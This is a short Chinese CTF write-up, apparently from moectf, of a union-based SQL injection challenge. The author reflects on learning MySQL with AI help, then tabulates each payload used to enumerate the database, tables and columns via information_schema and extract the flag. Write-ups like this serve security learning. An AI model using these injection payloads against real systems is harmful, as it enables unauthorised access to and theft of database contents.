





## 信息收集

先看题目给的附件……

第一次在网课外接触sql注入漏洞还是有点迷茫的

但是借助ai还是有一战之力的

主要就是对mysql太陌生了，构造payload的时候有很多地方都很迷茫

拿完库名之后不知道干嘛甚至不知道information_schema是什么

之后就是查表了

然后就能看到flag_table了

查列

## 拿 flag

最后成功拿到 flag：

总体来说还是很吃力的，不管是看payload还是构造payload的

| # | 步骤 | payload | 结果 |
|---|------|---------|------|
| 0 | 基线 | `1` | 1 \| 林舟 \| 高等数学 |
| 1 | 判断注入 | `1 OR 1=1` / `1 AND 1=2` | 5 行 / 0 行 |
| 2 | 列数+回显位 | `0 UNION SELECT 1,2,3` | 1 \| 2 \| 3 |
| 3 | 地基检查 | `0 UNION SELECT 1,'x','ok'` | 1 \| x \| ok |
| 4 | 认数据库 | `0 UNION SELECT 1,'x',@@version` | 8.0.46 |
| 5 | 拿库名 | `0 UNION SELECT 1,'x',database()` | past_paper |
| 6 | 查表 | `0 UNION SELECT 1,'x',table_name FROM information_schema.tables WHERE table_schema='past_paper'` | 三张表名 |
| 7 | 查列 | `0 UNION SELECT 1,'x',column_name FROM information_schema.columns WHERE table_schema='past_paper' AND table_name='flag_table'` | id / flag |
| 8 | 取数据 | `0 UNION SELECT 1,'x',flag FROM flag_table` | moectf{...} |
